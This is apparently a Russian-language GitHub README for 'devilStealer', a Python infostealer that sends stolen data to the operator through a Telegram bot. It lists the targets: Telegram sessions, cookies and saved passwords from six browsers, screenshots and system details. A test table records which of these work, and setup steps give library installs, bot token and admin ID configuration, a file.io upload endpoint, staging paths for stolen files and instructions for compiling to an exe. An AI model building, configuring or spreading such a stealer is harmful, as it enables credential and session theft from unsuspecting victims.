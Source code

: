 # devilStealer
### Python стиллер с отправкой через Telegram бота
### Какие данные ворует стиллер
- Телеграмм сессия
- Куки с Chrome
- Куки с Firefox
- Куки с Opera
- Куки с Yandex
- Куки с Amigo
- Куки с Edge

- Пароли с Chrome
- Пароли с Firefox
- Пароли с Opera
- Пароли с Yandex
- Пароли с Amigo
- Пароли с Edge
  
- Снимок экрана компьютера
- Информация о ПК
  - Время запуска стиллера
  - Имя пользователя/компьютера
  - IP
  - MAC адрес
  - Hostname
  - Информация о сетевых подключениях
  - Найденные программы стиллером
  - Информация о CPU
  - Информация о GPU
  - Информация о оперативной памяти
  - Информация о дисках
  - Информация об ОС
**Данные которые ворует стиллер могут обновляться**

### Последний тест стиллера
**Версия python на которой проводились тесты: 3.11**
**Версия библиотек на которых проводились тесты:
Pillow 10.0.0
browser-cookie3 0.19.1
psutil 5.9.5
pywin32 306
pyTelegramBotAPI 4.13.0**
| Данные | Дата последнего теста | Работает |
| ----------- | ----------- | ----------- |
| Куки с Chrome    | 28.08.2023   | Да   |
| Куки с Firefox    | 27.08.2023   | Да   |
| Куки с Opera    | 27.08.2023   | Да   |
| Куки с Yandex    | 28.08.2023   | Да   |
| Куки с Amigo    | -   | ?   |
| Куки с Edge    | 27.08.2023   | Да   |
| Пароли с Chrome    | 28.08.2023   | Да   |
| Пароли с Firefox    | 28.08.2023   | Да   |
| Пароли с Opera    | 27.08.2023   | Да   |
| Пароли с Yandex    | 28.08.2023   | Да   |
| Пароли с Amigo    | -   | ?   |
| Пароли с Edge    | 28.08.2023   | Да   |
| Сессия Telegram    | 28.08.2023   | Да   |
| Снимок экрана    | 28.08.2023   | Да   |
| Информация о ПК    | 28.08.2023   | Да   |

### Как установить
#### Windows
**Установка библиотек**
\```
pip install Pillow
pip install browser-cookie3
pip install psutil
pip install pywin32
pip install pyTelegramBotAPI
\```
**После установки библиотек скачайте и откройте архив с данным репозиторием**
**Отредактируйте bot.py**
Измените ADMIN_ID на ваш айди телеграмма (Получить можно в боте @chatIDrobot)
Измените bot = telebot.Telebot("СЮДА ТОКЕН ВАШЕГО БОТА") (Создать бота можно в @BotFather)
\```python
ADMIN_ID = "ID" # Your telegram id
FILE_IO_API_URL = "https://file.io"

bot = telebot.TeleBot("TOKEN") # Your bot token
\```
**Если вы хотите другой путь на сохранение временных файлов стиллера то отредактируйте stealer.py**
\```python
FILE_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData"
FILE_COOKIE = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\cookie"
FILE_PASSWORDS = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\passwords"
FILE_TG = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\tdata"
SCREENSHOT_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerDatascreenshot.jpg"
ZIP_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming"
\```
**!!!ВНИМАНИЕ ПУТЬ АРХИВА НЕ ДОЛЖЕН БЫТЬ В ПАПКЕ ДАННЫХ (FILE_PATH путь до этой папки и других констант) СТИЛЛЕРА!!!**

**Фаил для запуска bot.py**
**Чтобы сбилдить стиллер в exe используйте nuitka или pyinstaller**

#### MAC OS / Linux
**Установка библиотек**
\```
pip3 install Pillow
pip3 install browser-cookie3
pip3 install psutil
pip3 install pywin32
pip3 install pyTelegramBotAPI
\```
**После установки библиотек скачайте и откройте архив с данным репозиторием**
**Отредактируйте bot.py**
Измените ADMIN_ID на ваш айди телеграмма (Получить можно в боте @chatIDrobot)
Измените bot = telebot.Telebot("СЮДА ТОКЕН ВАШЕГО БОТА") (Создать бота можно в @BotFather)
\```python
ADMIN_ID = "ID" # Your telegram id
FILE_IO_API_URL = "https://file.io"

bot = telebot.TeleBot("TOKEN") # Your bot token
\```
**Если вы хотите другой путь на сохранение временных файлов стиллера то отредактируйте stealer.py**
\```python
FILE_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData"
FILE_COOKIE = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\cookie"
FILE_PASSWORDS = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\passwords"
FILE_TG = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\tdata"
SCREENSHOT_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerDatascreenshot.jpg"
ZIP_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming"
\```
**!!!ВНИМАНИЕ ПУТЬ АРХИВА НЕ ДОЛЖЕН БЫТЬ В ПАПКЕ ДАННЫХ (FILE_PATH путь до этой папки и других констант) СТИЛЛЕРА!!!**

**Фаил для запуска bot.py**
**Чтобы сбилдить стиллер в exe используйте nuitka или pyinstaller**
